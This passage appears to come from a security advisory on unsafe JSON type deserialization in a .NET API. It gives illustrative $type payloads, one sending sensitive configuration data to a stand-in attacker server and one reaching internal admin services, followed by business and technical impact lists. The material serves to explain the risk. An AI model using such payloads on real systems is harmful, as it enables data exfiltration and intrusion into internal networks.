 When this payload is deserialized, it instantiates a Process object and executes the calculator application. In a real attack, this would be replaced with commands to download and execute malware, establish persistence, or exfiltrate data.

**Scenario 2: Data Exfiltration via Network Connection**
An attacker crafts a payload that instantiates types capable of network communication, sends sensitive data to an attacker-controlled server, and leaves no obvious traces of the attack:

```json
{
  "$type": "System.Net.WebClient, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
  "QueryString": {
    "$type": "System.Collections.Specialized.NameValueCollection, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "data": "[contents of sensitive configuration files]"
  },
  "BaseAddress": "https://attacker-controlled-server.com/collect"
}

```

When deserialized, this payload reads sensitive data and sends it to the attacker's server.

**Scenario 3: Lateral Movement in Microservices**
In a microservices environment, an attacker first compromises the vulnerable API. They then craft payloads that access internal network resources normally inaccessible from the outside:

```json
{
  "$type": "System.Net.WebClient, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
  "DownloadString": "http://internal-service:8080/admin/users"
}

```

This allows the attacker to pivot through the network, accessing internal services protected by network segmentation but accessible from the compromised application.

# Impact Analysis
**Business Impact:**
- Complete compromise of the application and potentially the hosting environment
- Unauthorized access to sensitive customer and business data stored or processed by the application
- Violation of data protection regulations (GDPR, CCPA, etc.) potentially leading to significant fines
- Reputational damage if a breach becomes public, affecting customer trust and business relationships
- Potential business disruption if attackers choose to render services unavailable
- Costs associated with incident response, forensic investigation, and remediation
- Potential legal liability if compromised data is used in subsequent attacks

**Technical Impact:**
- Arbitrary code execution within the context of the application process
- Complete compromise of the affected application's confidentiality, integrity, and availability
- Potential privilege escalation if the application runs with elevated permissions
- Access to application secrets, connection strings, and API keys
- Ability to access internal services and resources not normally exposed to the internet
- Potential for persistent access through backdoors or creation of additional authentication mechanisms
- Lateral movement to other systems using compromised credentials or trusted relationships
- Ability to modify application logic, data, or stored procedures
- Possible access to underlying operating system resources depending on the application's permissions
